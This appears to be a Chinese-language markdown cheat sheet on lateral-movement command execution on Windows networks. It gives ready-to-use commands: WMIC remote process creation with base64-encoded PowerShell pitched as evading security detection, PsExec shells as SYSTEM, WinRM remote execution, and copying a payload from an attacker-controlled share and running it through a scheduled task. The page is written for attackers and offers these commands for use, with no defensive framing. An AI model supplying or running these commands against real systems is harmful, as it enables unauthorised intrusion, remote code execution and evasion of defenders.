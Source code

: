 ### 横向渗透命令执行手段

**1. WMI**

**WMI** 是 Windows 操作系统中的一个核心组件，它允许系统管理员对本地或远程计算机进行管理。攻击者可以利用 WMI 强大的功能，在远程主机上执行命令，而不需要依赖其他第三方工具

**常用命令：**

- `wmic /node:目标IP /user:用户名 /password:密码 process call create "cmd /c dir > c:\result.txt"`：这个命令可以在目标主机上执行 `dir` 命令，并将结果输出到 `c:\result.txt` 文件
- `wmic /node:目标IP /user:用户名 /password:密码 process call create "powershell.exe -e <Base64编码的命令>"`：通过 WMI 结合 PowerShell，可以执行更复杂的命令，绕过一些安全检测

**2. PsExec**

**PsExec** 是 Sysinternals 工具集中的一个经典工具，它允许在远程计算机上以本地 SYSTEM 账户身份执行命令。它利用 SMB 协议在远程主机上创建一个名为 `PSEXESVC` 的服务，通过这个服务来执行命令

**常用命令：**

- `PsExec.exe \\目标IP -u 用户名 -p 密码 cmd.exe`：直接在远程主机上打开一个交互式 `cmd` 终端
- `PsExec.exe \\目标IP -u 用户名 -p 密码 -s cmd.exe`：以 SYSTEM 权限打开一个 `cmd` 终端，这是最常见也是最强大的用法

**PsExec 的缺点是可能会被杀毒软件检测到，并且会在目标主机上留下服务创建和删除的日志**

**3. WinRM**

**WinRM** 是微软基于 WS-Management 标准实现的管理协议，默认在 Windows Server 2012 及其以上版本中启用。它可以通过 HTTP 或 HTTPS 协议进行远程管理，非常适合在防火墙严格的环境下使用

**常用命令：**

- `winrs -r:目标IP -u:用户名 -p:密码 ipconfig`：在目标主机上执行 `ipconfig` 命令
- `Invoke-Command -ComputerName 目标IP -Credential 用户名 -ScriptBlock {whoami}`：使用 PowerShell 的 `Invoke-Command` cmdlet，可以更灵活地执行命令和脚本

**4. UNC 路径执行**

在某些情况下，如果目标主机开启了 `SMB` 或 `IPC$` 共享，并且你拥有相应的权限，可以直接利用 `UNC` 路径（`\\IP\共享名`）来执行文件

**常用命令：**

- `copy \\攻击机IP\share\a.exe c:\windows\temp\a.exe`：将攻击机上的可执行文件复制到目标主机上
- `schtasks /create /s 目标IP /tn "MyTask" /tr c:\windows\temp\a.exe /sc once /st 00:00`：利用计划任务在特定时间执行复制过来的文件